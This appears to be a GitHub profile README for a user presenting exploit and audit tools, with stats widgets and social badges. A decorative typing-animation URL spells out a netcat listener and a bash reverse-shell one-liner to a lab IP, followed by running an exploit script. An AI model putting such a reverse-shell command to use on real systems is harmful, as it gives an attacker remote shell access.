 <h3 align="left">✨ Hello, here you will find tools to exploit vulnerabilities and audits ✨</h3>

  <img height="320" src="https://readme-typing-svg.herokuapp.com?font=Fira+Code&size=15&pause=1000&multiline=true&repeat=false&width=370&height=180&lines=nc+-lvnp+4444;listening+on+%5Bany%5D++4444+...;connect+to+%5BJoeArchV%5D+profile;bash+-i++%3E%26++%2Fdev%2Ftcp%2F10.10.10.10%2F4444+0%3E%261;JoeArchV%40profile%3A~%24+.%2Fexploit.py;.........................................;..................01001001...............;%24whoami;JoeArchV"  />
</div>

###
<div align="left">
  <img src="https://github-readme-stats.vercel.app/api?username=JoeArchV&hide_title=true&hide_rank=false&show_icons=false&include_all_commits=true&count_private=true&disable_animations=false&theme=dark&locale=en&hide_border=false&order=1" height="130" alt="stats graph"  />
  <img src="https://streak-stats.demolab.com?user=JoeArchV&locale=en&mode=daily&theme=dark&hide_border=false&border_radius=5&order=3" height="130" alt="streak graph"  />
</div>

<h5 align="left">✨ Programming language and social ✨</h5>
<div align="left">
  <img src="https://img.shields.io/badge/C-A8B9CC?logo=c&logoColor=black&style=for-the-badge" height="35" alt="c logo"  />
  <img src="https://img.shields.io/badge/C++-00599C?logo=cplusplus&logoColor=white&style=for-the-badge" height="35" alt="cplusplus logo"  />
  <img src="https://img.shields.io/badge/Python-3776AB?logo=python&logoColor=white&style=for-the-badge" height="35" alt="python logo"  /
  <a href="https://discord.com/invite/qWehcFJxPa" target="_blank">
  <img src="https://img.shields.io/static/v1?message=Discord&logo=discord&label=&color=7289DA&logoColor=white&labelColor=&style=for-the-badge" height="35" alt="discord logo"  /
  <a href="https://www.youtube.com/@joearchyt" target="_blank">
   <img src="https://img.shields.io/static/v1?message=Youtube&logo=youtube&label=&color=FF0000&logoColor=white&labelColor=&style=for-the-badge" height="35" alt="youtube logo"  /
  <a href="https://ko-fi.com/joearch" target="_blank">
   <img src="https://img.shields.io/static/v1?message=Ko-fi&logo=ko-fi&label=&color=F16061&logoColor=white&labelColor=&style=for-the-badge" height="35" alt="ko-fi logo"  /
</div>
